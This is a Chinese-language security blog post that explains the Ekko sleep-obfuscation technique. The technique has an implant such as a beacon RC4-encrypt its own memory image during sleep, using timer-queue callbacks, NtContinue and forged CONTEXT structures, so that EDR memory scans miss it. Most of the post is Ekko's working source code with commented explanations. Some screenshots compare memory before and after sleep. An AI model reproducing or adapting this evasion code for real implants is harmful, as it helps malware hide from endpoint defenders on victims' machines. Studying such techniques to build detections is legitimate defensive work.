 **概述**
======

Edr会扫描程序的内存空间，检测是否存在恶意软件，这种检测恶意软件的方式，应该和静态检测没什么区别，只不过一个扫描的对象是硬盘，一个是内存，应该都是基于特征码来检测的，为了绕过这种扫描我们可以对内存中的beacon进行加密，但这样的话就会出现问题，因为beacon被加密后是无法正常的运行的，因为代码被加密了。  
\#  
我们提到过自己是不可以加密自己的，但是Ekko项目实现了自己加密自己的内存，这对对抗内存扫描很有帮助。

**API理解**
=========

`CreateEvent()`创建或打开一个事件对象

`SetEvent()`设置对象状态已通知状态

`CreateTimerQueue()`创建计时器队列

`CreateTimerQueueTimer()`创建计时器队列计时器

```js

BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);
```

`phNewTimer`接受计时器队列计时器的缓冲区

`TimeQueue`计时器队列句柄

`CallBack`回调函数，计时器过期时要执行的函数

`Parameter`回调函数的参数

`DueTime`过多长时间向计时器发信号

`Period`计时器的周期，如果为0就向计时器发信号

`Flag`标志，指定函数调用相关内容。

对于`CreateTimerQueueTimer`函数可以这样理解，它可以定时执行一个函数，应该是异步执行的。

`WaitForSingleObject()`等待某个对象的状态，如果状态为已通知就往下执行，或者等待超时也会往下执行，也可以设置一直等待

`SystemFunction032()`通过RC4加密方式加密内存

`RtlCaptureContext()`得到当前线程的CONTEXT结构

对于`CONTEXT`结构可以理解为:用于存储线程运行时寄存器的值，RIP,RSP......

`NtContinue`()对于这个函数确实不太理解，这里只需要知道给它传进去一个`CONTEXT`结构，就可以执行`CONTEXT`对应的代码，也就是可以控制程序执行流程。

**Ekko代码阅读**
============

一些不太重要的代码会跳过去

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c9b168b0da4c5111003ec29750178a5145a4c649.png)

```js
  hEvent = CreateEventW(0, 0, 0, 0);//创建一个未通知状态自动复位的事件
  hTimerQueue = CreateTimerQueue();//创建计时器队列
  NtContinue = GetProcAddress(GetModuleHandleA("Ntdll"), "NtContinue");//得到函数地址
  SysFunc032 = GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
  ImageBase = GetModuleHandleA(NULL);//当前程序地址
  ImageSize = ((PIMAGE_NT_HEADERS)((DWORD64)ImageBase + ((PIMAGE_DOS_HEADER)ImageBase)->e_lfanew))->OptionalHeader.SizeOfImage;//大小

```

这段代码通过调用` CreateTimerQueue `创建了一个计时器队列接着，通过调用`GetModuleHandleA`与`GetProcAddress`得到了`NtContinue`和`SystemFunction032`函数的地址，接着又得到了当前程序的基地址和当前程序的大小

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-455e05101b47f39e1e1370dc0057fab6ca8f84a1.png)

```js
if (CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)RtlCaptureContext, &CtxThread, 0, 0, WT_EXECUTEINTIMERTHREAD))//调用RtlCaptureContext得到CONTEXT结构
    {
        WaitForSingleObject(hEvent, 0x32);//等待

        memcpy(&RopProtRW, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemEnc, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopDelay, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemDec, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopProtRX, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopSetEvt, &CtxThread, sizeof(CONTEXT));
```

通过`CreateTimerQueueTimer`创建了一个计时器，在创建后会立刻调用(因为`DueTime`与`period`都是0)`RtlCaptureContext`函数得到当前线程的`CONTEXT`结构，接着使用得到的`CONTEXT`结构初始化了一些`CONTEXT`结构，为下面的调用做准备。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-157253821708cb7a5401bab90aed651989d486b2.png)

```js
        //构造VirtualProtect函数的CONTEXT结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProtect );
        RopProtRW.Rsp -= 8;
        RopProtRW.Rip = (DWORD64)VirtualProtect;
        RopProtRW.Rcx = (DWORD64)ImageBase;
        RopProtRW.Rdx = (DWORD64)ImageSize;
        RopProtRW.R8 = PAGE_READWRITE;
        RopProtRW.R9 = (DWORD64)&OldProtect;
        //构造SystemFunction032函数的CONTEXT结构，此函数用于加密内存
        // SystemFunction032( &Key, &Img );
        RopMemEnc.Rsp -= 8;
        RopMemEnc.Rip = (DWORD64)SysFunc032;
        RopMemEnc.Rcx = (DWORD64)&Img;
        RopMemEnc.Rdx = (DWORD64)&Key;
        //构造WaitForSingleObject函数的CONTEXT结构，此函数用于睡眠
        // WaitForSingleObject( hTargetHdl, SleepTime );
        RopDelay.Rsp -= 8;
        RopDelay.Rip = (DWORD64)WaitForSingleObject;
        RopDelay.Rcx = (DWORD64)NtCurrentProcess();
        RopDelay.Rdx = SleepTime;
        //构造SystemFunction032函数的CONTEXT结构，此函数用于解密内存
        // SystemFunction032( &Key, &Img );
        RopMemDec.Rsp -= 8;
        RopMemDec.Rip = (DWORD64)SysFunc032;
        RopMemDec.Rcx = (DWORD64)&Img;
        RopMemDec.Rdx = (DWORD64)&Key;
        //构造VirtualProtect函数的CONTEXT结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_EXECUTE_READWRITE, &OldProtect );
        RopProtRX.Rsp -= 8;
        RopProtRX.Rip = (DWORD64)VirtualProtect;
        RopProtRX.Rcx = (DWORD64)ImageBase;
        RopProtRX.Rdx = (DWORD64)ImageSize;
        RopProtRX.R8 = PAGE_EXECUTE_READWRITE;
        RopProtRX.R9 = (DWORD64)&OldProtect;
        //构造SetEvent函数CONTEXT结构，设置对象为已通知状态
        // SetEvent( hEvent );
        RopSetEvt.Rsp -= 8;
        RopSetEvt.Rip = (DWORD64)SetEvent;
        RopSetEvt.Rcx = (DWORD64)hEvent;
```

这段代码为调用`VirtualProtect`与`SystemFunction032`......做准备  
主要通过给`CONTEXT`结构的成员赋值，来模拟对应函数的调用(当然这里不是真的调用)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-4156857ad7fe1c439b4e28f895624ad1b103063d.png)

```js
    //等100毫秒向计时器发信号，通过NtContinue调用VirtualProtect取消内存可执行权限
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRW, 100, 0, WT_EXECUTEINTIMERTHREAD);
        //等200毫秒向计时器发信号，通过NtContinue调用SystemFunction032加密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemEnc, 200, 0, WT_EXECUTEINTIMERTHREAD);
        //等300毫秒向计时器发信号，通过NtContinue调用WaitForSingleObject进行睡眠
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopDelay, 300, 0, WT_EXECUTEINTIMERTHREAD);
```

这段代码负责加密，主要通过`CreateTimerQueueTimer`函数创建计时器，计时器在等待指定的毫秒后，调用回调函数(也就是调用`NtContinue`)而`NtContinue`则会根据我们传入的`CONTEXT`结构去执行对应的函数。

比如第一行，传入的是`VirtualProtect`函数的`CONTEXT`结构，那么`NtContinue`将会调用`VirtualProtect`

下面是调用流程，画的有点丑，师傅们见谅^ \_^......

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-0fde9676879504d33f2a24c1d79a63240bc3b6b2.png)  
第二行就是调用`SystemFunction032`来对内存进行加密  
第三行就是调用`WaitForSingleObject`来实现睡眠，SleepTime就是睡眠的时间

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1c30e0bf5a9283c83631061f4ccb05d8d2397fff.png)  
下面来看一下解密内存部分

```js
 //等400毫秒向计时器发信号，通过NtContinue调用SystemFunction032解密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemDec, 400, 0, WT_EXECUTEINTIMERTHREAD);
        //等500毫秒向计时器发信号，通过NtContinue调用VirtualProtect更改内存权限为可执行
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRX, 500, 0, WT_EXECUTEINTIMERTHREAD);
        //等600毫秒向计时器发信号，通过NtContinue调用SetEvent设置对象为已通知状态
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopSetEvt, 600, 0, WT_EXECUTEINTIMERTHREAD);
```

第一行通过调用`SystemFunction032`来解密内存，第二行调用`VirtualProtect`设置内存权限为可读可写可执行，第三行调用`SetEvent`将事件对象设置为已通知状态。  
内存加密部分执行流程

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-bc5f8f07f53db9e057e08ee4d1beee716bf97ba1.png)

主要的代码已经介绍完了，下面来看一下效果。

**效果**
======

**睡眠前**

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-44b7b96ce93735d540614755d863fe92a03e59a2.png)  
**睡眠后**

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-15b2f5b4ededd384181bb7a602ee5742716bc223.png)  
因为作者水平有限，文章中难免会出现错误和不足之处，如果有哪些不好的地方希望各位师傅斧正。

**参考**
======

<https://github.com/Cracked5pider/Ekko> Ekko项目地址